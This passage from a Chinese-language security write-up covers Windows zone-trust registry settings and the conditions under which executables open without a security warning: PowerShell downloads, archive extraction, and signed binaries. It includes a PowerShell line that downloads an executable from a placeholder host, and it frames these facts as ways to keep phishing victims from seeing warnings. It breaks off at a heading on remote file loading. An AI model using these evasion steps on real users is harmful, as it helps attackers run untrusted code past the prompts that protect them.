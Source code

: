 [![](https://p4.ssl.qhimg.com/t01c7010c32e86a83d7.png)](https://p4.ssl.qhimg.com/t01c7010c32e86a83d7.png)

谷歌浏览器会出现失败已禁止下载的情况

[![](https://p2.ssl.qhimg.com/t0116bcdfcc99cbbe72.png)](https://p2.ssl.qhimg.com/t0116bcdfcc99cbbe72.png)

上面经过研究我们通过IE浏览器对网站的信任配置差异对比，对注册表的操作可以在下图中找到答案，下面是我对ie浏览器的本地Intranet配置[https://www.msn.com](https://www.msn.com/)的结果

[![](https://p2.ssl.qhimg.com/t01b6103328f2e589b0.png)](https://p2.ssl.qhimg.com/t01b6103328f2e589b0.png)

如果我们设置的是domain，那么就会在计算机\HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\进行配置，因为受信任的站点的zoneTransfer为2，所以下面的https也就为2

[![](https://p3.ssl.qhimg.com/t01e60b97a9280330c6.png)](https://p3.ssl.qhimg.com/t01e60b97a9280330c6.png)

如果我们配置的是ip地址那么就会在计算机\HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Ranges当中进行配置，其中https后面的值代表的就是ZoneTransfer的值，其实也就是/HKEY_CURRENT_USER/SoftWare/Microsoft/Windows/CurrentVersion/Internet Settings/ZoneMap/Ranges下有一个信任站点就有一个RangeN（N为1,2,3…）的记录

[![](https://p4.ssl.qhimg.com/t012ad43ac7b1e5b649.png)](https://p4.ssl.qhimg.com/t012ad43ac7b1e5b649.png)

所以应用程序是否会具备风险警告其实是和我们注册表配置有关，下载的程序的站点在受信任的站点当中，点击之后就不会有警告信息

如果不是通过浏览器下载得到的文件，而是通过一些命令行工具例如powershell的方式进行下载，那么得到的文件就不会含有ads流，打开文件也就不会存在信任警告问题，以下介绍仅为研究什么情况下会弹框的实践成果

```
$client = new-object System.Net.WebClient
$client.DownloadFile('https://oss/download/cmd.exe','C:\Users\xxxx\Desktop\cmd.exe')
```

[![](https://p0.ssl.qhimg.com/t0133f9f3d2f2f41fc4.png)](https://p0.ssl.qhimg.com/t0133f9f3d2f2f41fc4.png)

还有如果把exe文件包装在压缩包内，然后用户解压压缩包，压缩包里面的文件不会被附加上ads流，所以点击执行也同样不会有弹框信任这个问题

[![](https://p0.ssl.qhimg.com/t018c67722e3849362b.png)](https://p0.ssl.qhimg.com/t018c67722e3849362b.png)

[![](https://p0.ssl.qhimg.com/t0108bc2bf0a43c4c60.png)](https://p0.ssl.qhimg.com/t0108bc2bf0a43c4c60.png)

[![](https://p1.ssl.qhimg.com/t0198d322641208581e.png)](https://p1.ssl.qhimg.com/t0198d322641208581e.png)

如果应用程序自带有效的证书签名，虽然其本身也带有ADS数据流也带有URLZONE_INTERNET的标识，但是打开文件时也不会出现弹框警告

[![](https://p2.ssl.qhimg.com/t01adddcecb0176bced.png)](https://p2.ssl.qhimg.com/t01adddcecb0176bced.png)

[![](https://p2.ssl.qhimg.com/t01a51e4e2a9048a800.png)](https://p2.ssl.qhimg.com/t01a51e4e2a9048a800.png)

在实战攻击场景中，我们可能遇到以下场景导致无法利用，在经过研究之后发现可通过远程加载的方式进行攻击。
- 我们可控某个应用漏洞允许执行本地文件，但是无法附加任何参数
- 或者说如果通过钓鱼的方式让对方下载了exe，但是我们有个某客户端应用的rce漏洞可以打开文件，但是会出现由于信任机制导致的弹框问题，需要用户点击确认才可以执行，有没有什么方法可以替代这个让用户警觉的过程
- exe无法落地
### <a class="reference-link" name="3.%20%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8A%A0%E8%BD%BD%E5%88%A9%E7%94%A8"></a>3. 远程文件加载利用
